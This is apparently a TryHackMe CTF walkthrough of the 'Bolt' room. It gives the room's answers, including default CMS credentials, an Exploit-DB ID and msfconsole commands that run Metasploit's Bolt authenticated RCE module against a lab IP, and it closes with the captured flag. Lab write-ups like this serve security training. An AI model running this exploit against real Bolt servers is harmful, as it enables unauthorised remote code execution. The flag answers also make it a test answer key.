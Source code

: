 # Bolt




-------------------------------

# Task 1 - Deploy the Machine

> This room is designed for users to get familiar with the Bolt CMS and how it can be exploited using Authenticated Remote Code Execution. You should wait for at least 3-4 minutes for the machine to start properly.

> If you have any queries or feedback you can reach me through the TryHackMe Discord server or through Twitter.

## 1. Start the machine

> Start the machine

```
No answer needed
```


# Task 2 - Hack your way into the machine!

> Once you have successfully deployed the VM , enumerate it before finding the flag in the machine.


## 1. What port number has a web server with a CMS running?

> What port number has a web server with a CMS running?

```
8000
```

## 2. What is the username we can find in the CMS?

> What is the username we can find in the CMS?

```
bolt
```

## 3. What is the password we can find for the username?

> What is the password we can find for the username?

```
boltadmin123
```

## 4. What version of the CMS is installed on the server? (Ex: Name 1.1.1)

> What version of the CMS is installed on the server? (Ex: Name 1.1.1)

```
Bolt 3.7.1
```

How should we determine this without guessing...?

## 5. There's an exploit for a previous version of this CMS, which allows authenticated RCE. Find it on Exploit DB. What's its EDB-ID?

> There's an exploit for a previous version of this CMS, which allows authenticated RCE. Find it on Exploit DB. What's its EDB-ID?

```
48296
```

Found with `searchsploit`

## 6. Metasploit recently added an exploit module for this vulnerability. What's the full path for this exploit? (Ex: exploit/....)

> Metasploit recently added an exploit module for this vulnerability. What's the full path for this exploit? (Ex: exploit/....)

```
exploit/unix/webapp/bolt_authenticated_rce
```

## 7. Set the LHOST, LPORT, RHOST, USERNAME, PASSWORD in msfconsole before running the exploit

> Set the LHOST, LPORT, RHOST, USERNAME, PASSWORD in msfconsole before running the exploit

```
use exploit/unix/webapp/bolt_authenticated_rce
set LHOST tun0
set RHOST 10.10.56.169
set USERNAME bolt
set PASSWORD boltadmin123
run
```

This will not tell you it finished. You will not have a prompt.

Just try and run commands. 

## 8. Look for flag.txt inside the machine.

> Look for flag.txt inside the machine.

```
cat /home/flag.txt
```

```
THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}
```